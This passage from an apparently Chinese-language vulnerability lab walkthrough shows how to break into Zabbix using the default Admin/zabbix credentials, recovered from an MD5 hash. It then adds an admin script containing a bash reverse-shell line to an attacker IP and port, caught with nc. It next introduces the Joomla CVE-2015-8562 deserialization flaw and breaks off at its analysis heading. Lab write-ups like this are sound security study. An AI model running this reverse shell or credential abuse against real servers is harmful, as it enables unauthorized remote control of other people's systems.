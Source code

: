 ![](https://i.loli.net/2021/02/13/YoTeb7l6DZ5qFnj.png)
![](https://i.loli.net/2021/02/13/pALPrzy957bBg1x.png)



Administrator

5fce1b3e34b520afeffb37ce08c7cd66

![](https://i.loli.net/2021/02/13/1mDdf2a5tz7LHEJ.png)

MD5解密即得密码zabbix

```
管理员账户：（不懂为啥，用户名是Admin，可能是环境问题？）
Admin
zabbix
```



登入后如下图点击~在administration下的scripts添加命令

![](https://i.loli.net/2021/02/13/lOjT4emRzKL6cqE.png)

写入反弹shell：

```bash
bash -i >& /dev/tcp/你的ip/你的端口 0>&1
```

![](https://i.loli.net/2021/02/13/XpjChdwn92AJL76.png)

触发脚本，然后NC监听即可~

![](https://i.loli.net/2021/02/13/Y9XRjwgMPTvnEHl.png)

### Joomla 3.4.5 反序列化漏洞（CVE-2015-8562）

#### 安装过程

老样子，只是在网页配置过程注意填入如下数据

![](https://i.loli.net/2021/02/13/mLkDCOvWSzawQ8p.png)

#### 概述

本漏洞根源是PHP5.6.13前的版本在读取存储好的session时，如果反序列化出错则会跳过当前一段数据而去反序列化下一段数据。而Joomla将session存储在Mysql数据库中，编码是utf8，当我们插入4字节的utf8数据时则会导致截断。截断后的数据在反序列化时就会失败，最后触发反序列化漏洞。

##### 影响版本

- Joomla 1.5.x, 2.x, and 3.x before 3.4.6
- PHP 5.6 < 5.6.13, PHP 5.5 < 5.5.29 and PHP 5.4 < 5.4.45

##### 分析
